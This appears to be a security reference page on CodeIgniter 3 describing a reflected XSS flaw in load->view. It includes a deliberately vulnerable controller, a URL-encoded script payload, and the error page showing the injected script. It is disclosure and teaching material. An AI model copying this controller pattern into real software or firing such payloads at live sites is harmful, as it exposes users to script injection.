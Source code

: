 ```yaml
---
title: CodeIgniter 3
description: Details on the PHP web framework "CodeIgniter 3" and its common security issues.
---
```



CodeIgniter 3 is the previous version of the popular PHP web framework. Maintenance of CodeIgniter 3 is slow though
ongoing nowadays. Most maintainers have moved to CodeIgniter 4.

---

## Versions of CodeIgniter 3

The latest CodeIgniter 3 release, 3.1.13 from March 3rd 2022, can be downloaded from
[this](https://codeigniter.com/userguide3/installation/downloads.html) site. Some fixes and improvements have been made
since then. They are available on the default `develop` branch on [GitHub](https://github.com/bcit-ci/CodeIgniter).
These changes are not part of any official release.

## XSS in CodeIgniter 3 via user controlled `load->view`

The latest release of CodeIgniter 3 is vulnerable to XSS
[[3]](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf) when userinput is passed into
`$this->load->view($page);`. A fix exists, but was never merged [[4]](https://github.com/bcit-ci/CodeIgniter/pull/6113).
This applies to both the latest release and the latest development version.

Take this example code of a minimal CodeIgniter 3 controller inserting userinput into the `load->view` function:

```php
<?php
defined('BASEPATH') OR exit('No direct script access allowed');

class Welcome extends CI_Controller {
	public function index()
	{
		// Trigger the XSS by requesting http://localhost/?page=%3Cscript%3Ealert()%3C/script%3E
		$page = $this->input->get("page");
		if (isset($page)) {
			$this->load->view($page);
		}
	}
}
```

Since the requested view does not exist, CodeIgniter 3 will emit the error message `Unable to load the requested file:
$REQUESTED_VIEW .php`. The value of `$REQUESTED_VIEW` is not sanitized however, allowing an attacker to inject HTML/
JavaScript into the DOM.

```html collapse={5-51} title="Error" {57}
<html lang="en"><head>
<meta charset="utf-8">
<title>Error</title>
<style type="text/css">

::selection { background-color: #E13300; color: white; }
::-moz-selection { background-color: #E13300; color: white; }

body {
	background-color: #fff;
	margin: 40px;
	font: 13px/20px normal Helvetica, Arial, sans-serif;
	color: #4F5155;
}

a {
	color: #003399;
	background-color: transparent;
	font-weight: normal;
}

h1 {
	color: #444;
	background-color: transparent;
	border-bottom: 1px solid #D0D0D0;
	font-size: 19px;
	font-weight: normal;
	margin: 0 0 14px 0;
	padding: 14px 15px 10px 15px;
}

code {
	font-family: Consolas, Monaco, Courier New, Courier, monospace;
	font-size: 12px;
	background-color: #f9f9f9;
	border: 1px solid #D0D0D0;
	color: #002166;
	display: block;
	margin: 14px 0 14px 0;
	padding: 12px 10px 12px 10px;
}

#container {
	margin: 10px;
	border: 1px solid #D0D0D0;
	box-shadow: 0 0 8px #D0D0D0;
}

p {
	margin: 12px 15px 12px 15px;
}
</style>
</head>
<body>
	<div id="container">
		<h1>An Error Was Encountered</h1>
		<p>Unable to load the requested file: <script>alert()</script>.php</p>	</div>

</body></html>
```

![A browser alert with the text "Localhost says"](../../../../assets/pwnmemo/targets/codeigniter3/codeigniter3-xss-alert.png)

<FigCaption caption="The XSS is triggered by wrapping a JavaScript payload in script tags and passing it to the vulnerable parameter." />

You can find a full PoC project [here](https://github.com/jonasheschl/CodeIgniter3-XSS-PoC).

This vulnerability was discovered by Antoine Cervoise and Maxime Rinaudo at Synacktiv. See their vulnerability report
[[3]](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf).

## References

1. [Official documentation](https://codeigniter.com/userguide3/index.html)
2. [GitHub repository](https://github.com/bcit-ci/CodeIgniter)
3. [XSS via user controlled `load->view`](https://www.synacktiv.com/sites/default/files/2022-11/CodeIgniter3_XSS_2022.pdf)
4. [Fix for XSS via user controlled `load->view`](https://github.com/bcit-ci/CodeIgniter/pull/6113)
5. [XSS via user controlled `load->view` PoC project](https://github.com/jonasheschl/CodeIgniter3-XSS-PoC)

